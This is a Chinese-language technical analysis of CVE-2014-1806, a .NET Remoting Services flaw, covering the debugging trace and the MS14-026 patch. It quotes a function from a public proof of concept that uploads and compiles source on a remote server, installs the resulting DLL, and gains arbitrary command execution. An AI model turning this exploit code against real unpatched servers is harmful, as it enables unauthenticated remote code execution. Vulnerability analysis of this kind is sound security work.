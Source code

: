 # CVE-2014-1806 .NET Remoting Services漏洞浅析

0x00 简介
=======

* * *

Microsoft .NET Remoting是一种分布式处理方式，提供了一种允许对象通过应用程序域与另一对象进行交互的框架。前几天James Forshaw发布了CVE-2014-1806 .NET Remoting Services的漏洞利用程序，花了一些时间对其进行一下简单的调试分析。

首先安装包含漏洞的.NET Framework v4.0.30319，执行poc代码，可以看到执行成功了。

![enter image description here](http://drops.javaweb.org/uploads/images/afe7c11c40b7360cdaf907ec58c07a74f566bba5.jpg)

0x01 分析
=======

* * *

对poc代码进行分析，可以看到下面的代码CreateRemoteClass，其中MakeCall模板函数根据参数信息构建发送到服务器端的请求数据并得到服务器执行结果，其中static object SendRequest(object o, bool remote) 函数完成对象的序列化、协议数据包的构建发送以及执行结果的解析。

例如MakeCall(_uri.AbsolutePath, GetStaticMethod(typeof(Path), "GetTempPath"))是用于调用远程服务器中Path对象的GetTempPath方法，并返回执行结果。Poc中的代码用于在远端服务器中上传、编译RemoteClass.cs、IRemoteClass.cs、InstallClass.cs文件得到Installer.dll，然后安装Installer.dll，最终创建IRemoteClass的对象实体。在得到IRemoteClass对象之后，就能调用它的方法执行任意命令了。

```
private static IRemoteClass CreateRemoteClass()
{
    if (_useser)
    {
        return new SerializerRemoteClass();
    }
    else
    {
        string path;
        if (_uri.Scheme != "ipc")
        {
            IRemoteClass ret = GetExistingRemoteClass();

            try
           {
               ret.ToString();
               return ret;
           }
           catch (RemotingException)
           {
           }

           path = MakeCall<string>(_uri.AbsolutePath, GetStaticMethod(typeof(Path), "GetTempPath"));
          path = Path.Combine(path, "Installer.dll");
          CodeDomProvider compiler = MakeCall<CodeDomProvider>(_uri.AbsolutePath, GetCreateInstance<CSharpCodeProvider>());

          string uri = RemotingServices.GetObjectUri(compiler);
          CompilerParameters cp = new CompilerParameters();
          cp.ReferencedAssemblies.Add("System.dll");
          cp.ReferencedAssemblies.Add("System.Configuration.Install.dll");
          cp.OutputAssembly = path;

          cp.GenerateInMemory = false;
          cp.GenerateExecutable = false;

          string code = GetResource("RemoteClass.cs");
          string intf = GetResource("IRemoteClass.cs");
          string inst = GetResource("InstallClass.cs");

CompilerResults res = MakeCall<CompilerResults>(uri,new FakeMethod(typeof(CodeDomProvider).GetMethod("CompileAssemblyFromSource"), _ver), cp, new string[] { code, intf, inst });
          }
          else
          {
              path = typeof(IRemoteClass).Assembly.Location;
          }
          try
          {
             AssemblyInstaller installer = MakeCall<AssemblyInstaller>(_uri.AbsolutePath, GetCreateInstance<AssemblyInstaller>());
            installer.Path = path;
            installer.CommandLine = new string[] { "/name=" + _remotename };
            installer.UseNewContext = true;
            installer.Install(new Hashtable());
       }
       catch
       {
           // In the IPC case this might fail
           // Just continue on with the creation of the remote class and see if we're lucky            
       }
        return GetExistingRemoteClass();
    }
}

```

可以通过WireShark截包验证整个数据交互过程，其中包含文件的上传，服务端的%TEMP%目录下也相应的生成了Installer.dll。

![enter image description here](http://drops.javaweb.org/uploads/images/8adcab195cd420349eb3e5ce475b1aa3d745c397.jpg)

为了了解服务端的数据处理流程，通过windbg对CreateProcessW设置断点，通过sos.dll扩展来观察程序的托管代码调用堆栈。

![enter image description here](http://drops.javaweb.org/uploads/images/f59d2c7a77909cdad3a32b61fce499cdcd74f070.jpg)

通过托管代码的调用栈，结合.NET Reflector对System.Runtime.Remoting.dll进行分析。

可以看到System.Runtime.Remoting.Channels.Tcp.TcpServerTransportSink.ServiceRequest方法通过ITransportHeaders requestHeaders = handler.ReadHeaders()和Stream requestStream = handler.GetRequestStream()获取了协议头和请求的对象流信息。

然后调用System.Runtime.Remoting.Channels.BinaryServerFormatterSink.ProcessMessage方法 ，该方法中通过requestMsg = CoreChannel.DeserializeBinaryRequestMessage(uRI, requestStream, this._strictBinding, this.TypeFilterLevel)对请求的对象流进行反序列化，成功之后则调用System.Runtime.Remoting.Channels.DispatchChannelSink.ProcessMessage。

![enter image description here](http://drops.javaweb.org/uploads/images/a3dcbe92da4271d719a095791c969f504ed65992.jpg)

![enter image description here](http://drops.javaweb.org/uploads/images/c85ca747b90417eb550537c9175c7d2947c3932b.jpg)

System.Runtime.Remoting.Channels.DispatchChannelSink.ProcessMessage中简单判断之后，直接调用了ChannelServices.DispatchMessage(sinkStack, requestMsg, out responseMsg)分发消息。

DispatchMessage中则只是通过IsMethodReallyPublic(methodBase)和RemotingServices.IsMethodAllowedRemotely(methodBase))判断了远端调用的方法是否允许，如果满足条件，则进一步处理，最终调用该方法。

![enter image description here](http://drops.javaweb.org/uploads/images/683336789ee8a88fb3777a9a356b0ef29b7e6150.jpg)

![enter image description here](http://drops.javaweb.org/uploads/images/ac64b459cc1c92dad0b3bf4036a265e27cc38dfb.jpg)

整个过程中并没有对远端的身份进行有效性验证，而Remoting对远端提供的方法导致了可以通过CreateInstance 在服务端得到获取CodeDomProvider对象、通过CodeDomProvider的CompileAssemblyFromSource方法编译源码、安装Installer.dll，最后创建IRemoteClass类对象来执行命令的漏洞。

0x02 关于补丁
=========

* * *

Microsoft 安全公告 MS14-026中提到针对该漏洞的安全更新是通过帮助确保 .NET Framework 为应用程序内存正确强制实施安全控件来解决漏洞，即采用了变通方法，仅允许经过身份验证的客户端与容易受到攻击的服务器进行交互。

![enter image description here](http://drops.javaweb.org/uploads/images/5ccf097462b8d38d8c7f6fa4e6570400f24e0b95.jpg)

![enter image description here](http://drops.javaweb.org/uploads/images/73a10ce6c7f90e7ea418e225a3ed161c5bf3f3c9.jpg)

通过给win7 sp1打NDP40-KB2931365-x86.exe补丁，对比打补丁前后的System.Runtime.Remoting.dll的System.Runtime.Remoting.Channels.BinaryServerFormatterSink.ProcessMessage方法，可以看到多了如下图的一段代码。

![enter image description here](http://drops.javaweb.org/uploads/images/bdb878821af1b1c634ddf74c5d0d25d41b4b7a19.jpg)

执行之前的poc代码，将发现服务端抛出异常，由于allowTransparentProxyMessageValue的值为false，导致消息不会进一步被处理，与安全公告中描述的一致。如果allowTransparentProxyMessageValue的值为true，程序的处理流程与未打补丁时相同。

![enter image description here](http://drops.javaweb.org/uploads/images/f91c54bcdd99dcca719dfef5824bf5b39c7f9e76.jpg)